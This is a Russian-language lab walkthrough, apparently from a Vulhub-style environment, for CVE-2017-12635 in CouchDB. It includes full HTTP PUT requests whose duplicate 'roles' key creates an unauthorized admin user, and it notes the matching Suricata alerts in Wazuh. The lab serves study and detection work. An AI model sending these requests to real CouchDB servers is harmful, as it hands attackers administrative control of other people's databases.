





# CVE-2017-12635

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-12635](https://nvd.nist.gov/vuln/detail/CVE-2017-12635)
* [https://docs.couchdb.org/en/stable/cve/2017-12635.html](https://docs.couchdb.org/en/stable/cve/2017-12635.html)

Из-за различий в парсере JSON CouchDB, основанном на Erlang, и парсере JSON, основанном на JavaScript, возможно предоставление документов \_users с дублирующимися ключами для ролей, используемых для контроля доступа в базе данных, включая роль \_admin, обозначающей административных пользователей.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5984/_utils/ будет доступна страница авторизации CouchDB

<figure><figcaption></figcaption></figure>

Для добавления пользователя можно отправить соответствующий запрос:

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: ваш-ip:5984
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
Content-Length: 92

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}	
```

Но после его отправки мы получим ответ, что только администратор может выставлять роли пользователям&#x20;

<figure><figcaption></figcaption></figure>

Но, если добавить дополнительное пустое поле "roles", то можно обойти ограничение

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: ваш-ip:5984
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

<figure><figcaption></figcaption></figure>

Был создан пользователь vulhub с паролем vulhub с ролью администратора:

<figure><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации CouchDB RCE&#x20;

<figure><figcaption></figcaption></figure>
